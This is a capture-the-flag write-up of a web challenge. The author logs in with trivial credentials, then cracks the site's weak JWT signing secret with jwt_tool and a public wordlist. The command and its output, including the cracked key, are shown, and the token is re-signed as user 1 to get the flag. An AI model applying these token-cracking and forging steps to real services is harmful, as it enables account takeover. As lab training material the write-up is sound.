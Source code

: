  
## Challenge description

![Screenshot_20230725_012008](https://github.com/kiro6/writeups-ctfs/assets/57776872/1fd64962-6d53-4e72-981e-df996630856a)


## first lets explore 

##### we have a login page & sign-in page
![Screenshot_20230725_012126](https://github.com/kiro6/writeups-ctfs/assets/57776872/2451ba4d-7c8b-42ad-a081-52c1263645c8)

##### first thing come to my mind SQLi ,Broken Authentication, Broken Access Control

##### tried SQLi but did not seem that the website is vulnerable to it
##### tried to check if the sign-in and login reveal info about current users or their passwords , i found an admin user  ,  i was about to check password policy and try to brute-force it , but then the admin said no brute-force

##### back to the challenge description `what is 5 minus 4?` , so i tried to login as username=1 and password=1 and it worked !! 

##### lets check the repeater 
![Screenshot_20230725_013210](https://github.com/kiro6/writeups-ctfs/assets/57776872/5d0efc31-53c6-4bce-8e0e-9b8cfdd81868)

##### we have an interesting cookie and it seems to be a jwt token and i was right 
![Screenshot_20230725_013521](https://github.com/kiro6/writeups-ctfs/assets/57776872/20efd9b5-db89-4ba3-8dd2-ddad05bfeae0)

##### back to challenge description `There are some best practices in web development which should strictly followed by the developer!`  so i think maybe it have a weak secret 

##### first i tried to check if the key secret generated by the interval time between `nbf` and `exp` but did not work 

##### then i searched for a list for jwt secrets to brute-force [list](https://github.com/wallarm/jwt-secrets/blob/master/jwt.secrets.list)  and jwt-tool [ticarpi/jwt_tool](https://github.com/ticarpi/jwt_tool)

```zsh
python3 jwt_tool.py eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTY5MDIzNzg5NywianRpIjoiYjQ1ZTJlMGYtNzYwZi00ODQ3LTliNTgtYTg0YWYzNjY2YjFiIiwidHlwZSI6ImFjY2VzcyIsInN1YiI6MTAsIm5iZiI6MTY  
5MDIzNzg5NywiZXhwIjoxNjkwMjM4Nzk3fQ.3dlek7H56vB7C_lmjGjXDKOSSosCoAO41XWdOkLIurI  -d /path/to/list -C  
  
       \   \        \         \          \                    \    
  \__   |   |  \     |\__    __| \__    __|                    |  
        |   |   \    |      |          |       \         \     |  
        |        \   |      |          |    __  \     __  \    |  
 \      |      _     |      |          |   |     |   |     |   |  
  |     |     / \    |      |          |   |     |   |     |   |  
\        |    /   \   |      |          |\        |\        |   |  
\______/ \__/     \__|   \__|      \__| \______/  \______/ \__|  
Version 2.2.6                \______|             @ticarpi         
  
Original JWT:    
                                                                                                                                                                                                                  
[+] this_is_a_dev_secret is the CORRECT key!  
You can tamper/fuzz the token contents (-T/-I) and sign it using:  
python3 jwt_tool.py [options here] -S hs256 -p "this_is_a_dev_secret"
```

##### we found the secret now we can modify the token , i changed the sub to 1 since it is the challenge name (note i get a new token because the previous one expired )
![Screenshot_20230725_014825](https://github.com/kiro6/writeups-ctfs/assets/57776872/d6f8caf8-9c6c-43d7-9337-b36e7fb643f1)


##### send a request with the new token and we get the flag
![Screenshot_20230725_015206](https://github.com/kiro6/writeups-ctfs/assets/57776872/13b3f236-7438-48fa-8862-a17a7cda390d)

